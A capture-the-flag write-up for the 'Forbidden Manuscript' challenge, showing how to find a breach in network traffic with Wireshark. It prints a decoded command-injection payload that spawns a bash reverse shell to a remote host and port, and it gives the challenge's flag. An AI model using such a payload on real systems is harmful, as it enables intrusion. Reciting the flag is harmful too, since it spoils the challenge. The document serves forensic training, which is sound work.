





 Forbidden Manuscript

26th Oct 2024

Prepared By: `gordic`

Challenge Author(s): `gordic`

Difficulty: Very Easy

  

# Synopsis

- The user is tasked with performing PCAP analysis. The challenge is straightforward: the user must analyze HTTP requests within the network capture to uncover details of the incident. One of the streams contains an encoded payload.

## Description

- On the haunting night of Halloween, the website of "Shadowbrook Library"—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity. Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths. Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.

Flag: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`

## Skills Required

- Basic wireshark usage
- Basic .pcap analysis
- Hex encoding/decoding

## Skills Learned (!)

- Packet analysis
- Detection of command injection
- Reverse shell analysis

# Enumeration (!)

The challenge provides a PCAP file named `capture.pcap`. We can start by opening the file in Wireshark.

We can follow first HTTP stream by right-clicking on the first HTTP packet and selecting `Follow > HTTP Stream`. We are greeted with a windows that shows the HTTP requests and responses.

Upon examining the HTTP streams, we find an encoded string in stream 4. We can copy this string and decode it using an online tool or a Python script.

First, we perform URL decoding on the string. The decoded string is:

> exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned

This appears to be a reverse shell payload. After closing the HTTP stream, we scroll down to the end of stream 4 in Wireshark and notice numerous TCP packets. These packets represent the reverse shell connection, indicated by the use of port 4444 as specified in the payload.

We can follow this TCP stream by right-clicking on the first TCP packet and selecting `Follow > TCP Stream`. This reveals the reverse shell commands being executed, and we can see the flag being displayed in the terminal.

To retrieve the flag, we use CyberChef's "From Hex" function to decode it.

Encoded Flag: `4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d`

Decoded Flag: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`